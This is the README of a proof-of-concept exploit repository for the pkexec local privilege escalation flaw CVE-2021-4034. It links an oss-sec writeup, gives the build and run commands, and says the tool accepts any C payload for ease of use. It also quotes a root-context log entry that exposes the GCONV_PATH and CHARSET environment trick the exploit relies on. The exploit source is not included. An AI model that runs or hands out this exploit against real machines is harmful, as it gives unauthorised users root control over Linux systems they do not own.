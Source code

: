 # pkexec-lpe-poc
POC for CVE-2021-4034

[Original Writeup](https://seclists.org/oss-sec/2022/q1/80)

For ease of use, it accepts a C file payload instead of a hardcoded shell.

usage:
```
make
./poc payload.c
```

tested on `Ubuntu 20.04.3 LTS - Linux target 5.4.0-81-generic`

Of note, this will produce a system log error like:
```
The value for the SHELL variable was not found the /etc/shells file [USER=root] [TTY=/dev/pts/0] [CWD=/home/icon/pkexec_poc] [COMMAND=GCONV_PATH=./privesc PATH=GCONV_PATH=. CHARSET=PRIVESC SHELL=sh]
```

